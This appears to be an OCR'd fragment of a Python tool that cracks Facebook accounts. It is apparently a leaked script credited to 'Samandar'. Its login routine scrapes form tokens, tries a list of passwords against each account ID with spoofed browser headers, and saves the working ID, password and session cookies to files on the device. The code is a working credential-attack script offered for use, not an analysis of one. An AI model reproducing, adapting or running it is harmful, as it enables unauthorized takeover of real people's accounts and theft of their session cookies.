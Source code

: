             SamandarSefat.submit(__API__,ids,passlist,tl,ck)
    print("");linex();print(f"{rad}[{white}◆{rad}] {green}PROCESS HAS BEEN COMPLETED");print(f"{rad}[{white}◆{rad}] {green}TOTAL OK   {white}▶︎ {green}{len(oks)}");linex();exit()
#━━━━[ METHOD API ]━━━━#
def __API__(ids,passlist,tl,ck):
    global loop,oks,cps
    sys.stdout.write(f"\r{rad}[{green}{today}{rad}]{white}-{rad}[\x1b[38;5;38m{loop}{rad}]{white}-{rad}[{green}OK:{len(oks)}{rad}]"),
    sys.stdout.flush()
    session=requests.Session()
    ua = ua_valid()
    try:
        for pas in passlist:
            free_fb = session.get('https://free.facebook.com').text
            info={'jazoest': re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1), 'lsd': re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1), 'email': ids, 'login_source': 'comet_headerless_login', 'next': '', 'encpass': '#PWD_BROWSER:0:{}:{}'.format(re.search('name="m_ts" value="(.*?)"',str(free_fb)).group(1),pas),}
            update={'User-Agent': ua, 'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8', 'Accept-Language': 'en-US,en;q=0.5', 'Referer': 'https://www.facebook.com/', 'Content-Type': 'application/x-www-form-urlencoded', 'Origin': 'https://www.facebook.com', 'Alt-Used': 'www.facebook.com', 'Connection': 'keep-alive', 'Upgrade-Insecure-Requests': '1', 'Sec-Fetch-Dest': 'document', 'Sec-Fetch-Mode': 'navigate', 'Sec-Fetch-Site': 'same-origin', 'Sec-Fetch-User': '?1'}
            session.post(url=f"https://www.facebook.com/login/",data=info,headers=update).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = re.findall('c_user=(.*);xs',coki)[0]
                ckk = f'https://graph.facebook.com/{cid}/picture?type=normal'
                res = requests.get(ckk).text
                if 'Photoshop' in res:
                    if "Y" in ck:
                        print(f'\r\r{rad}[{green}Samandar-💚{rad}]{green} {cid} {rad}▶︎ {green}{pas}')
                        print(f'\r\r\x1b[38;5;46m=[🍪]= {green}{coki}');linex()
                        open('/sdcard/Samandar-OK.txt','a').write(cid+'|'+pas+'\n');open('/sdcard/Samandar-OK-COOKIE.txt','a').write(cid+'|'+pas+'|'+coki+'\n')
                        oks.append(cid)
                        break
                    else:
                        print(f'\r\r{rad}[{green}Samandar-💚{rad}]{green} {cid} {rad}▶︎ {green}{pas}')
                        open('/sdcard/Samandar-OK.txt','a').write(cid+'|'+pas+'\n');open('/sdcard/Samandar-OK-COOKIE.txt','a').write(cid+'|'+pas+'|'+coki+'\n')
                        oks.append(cid)
                        break 
            else:
                continue
        loop+=1
    except requests.exceptions.ConnectionError:
        time.sleep(10)
    except Exception as e:
        pass
        
Samandar()
    
    
#-----[ DEC & FUCKED BY - RH ]-----
#-----[ Leaked - HAZRAT ]-----
